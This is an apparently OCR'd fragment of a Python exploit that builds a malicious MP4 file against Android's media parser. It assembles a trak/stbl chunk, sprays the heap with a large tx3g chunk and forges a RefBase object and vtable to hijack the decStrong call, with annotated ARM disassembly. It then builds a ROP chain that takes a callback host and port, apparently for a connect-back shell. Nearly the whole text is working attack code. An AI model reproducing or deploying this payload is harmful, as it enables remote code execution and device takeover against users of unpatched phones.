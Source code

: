     # Add a minimal, verified trak to satisfy mLastTrack being set
    moov_data += make_chunk('trak',
        make_chunk('stbl',
            make_stsc(0x28, 0x28) +
            make_stco() +
            make_stsz() +
            make_stts() ))

    # Spray the heap using a large tx3g chunk (can contain binary data!)
    """
       0x4007004e <_ZNK7android7RefBase9decStrongEPKv+2>:   ldr r4, [r0, #4]  ; load mRefs
       0x40070050 <_ZNK7android7RefBase9decStrongEPKv+4>:   mov r5, r0
       0x40070052 <_ZNK7android7RefBase9decStrongEPKv+6>:   mov r6, r1
       0x40070054 <_ZNK7android7RefBase9decStrongEPKv+8>:   mov r0, r4
       0x40070056 <_ZNK7android7RefBase9decStrongEPKv+10>:  blx 0x40069884    ; atomic_decrement
       0x4007005a <_ZNK7android7RefBase9decStrongEPKv+14>:  cmp r0, #1        ; must be 1
       0x4007005c <_ZNK7android7RefBase9decStrongEPKv+16>:  bne.n   0x40070076 <_ZNK7android7RefBase9decStrongEPKv+42>
       0x4007005e <_ZNK7android7RefBase9decStrongEPKv+18>:  ldr r0, [r4, #8]  ; load refs->mBase
       0x40070060 <_ZNK7android7RefBase9decStrongEPKv+20>:  ldr r1, [r0, #0]  ; load mBase._vptr
       0x40070062 <_ZNK7android7RefBase9decStrongEPKv+22>:  ldr r2, [r1, #12] ; load method address
       0x40070064 <_ZNK7android7RefBase9decStrongEPKv+24>:  mov r1, r6
       0x40070066 <_ZNK7android7RefBase9decStrongEPKv+26>:  blx r2            ; call it!
    """
    page = ''
    off = 0  # the offset to the next object
    off += 8
    page += struct.pack('<L', sp_addr + 8 + 16 + 8 + 12 - 28)    # _vptr.RefBase (for when we smash mDataSource)
    page += struct.pack('<L', sp_addr + off) # mRefs
    off += 16
    page += struct.pack('<L', 1)             # mStrong
    page += struct.pack('<L', 0xc0dedbad)    # mWeak
    page += struct.pack('<L', sp_addr + off) # mBase
    page += struct.pack('<L', 16)            # mFlags (dont set OBJECT_LIFETIME_MASK)
    off += 8
    page += struct.pack('<L', sp_addr + off) # the mBase _vptr.RefBase
    page += struct.pack('<L', 0xf00dbabe)    # mBase.mRefs (unused)
    off += 16
    page += struct.pack('<L', 0xc0de0000 + 0x00)  # vtable entry 0
    page += struct.pack('<L', 0xc0de0000 + 0x04)  # vtable entry 4
    page += struct.pack('<L', 0xc0de0000 + 0x08)  # vtable entry 8
    page += struct.pack('<L', newpc_val)          # vtable entry 12
    rop = build_rop(off, sp_addr, newpc_val, cb_host, cb_port)
    x = len(page)
    while len(page) < 4096:
        page += struct.pack('<L', 0xf0f00000+x)
        x += 4
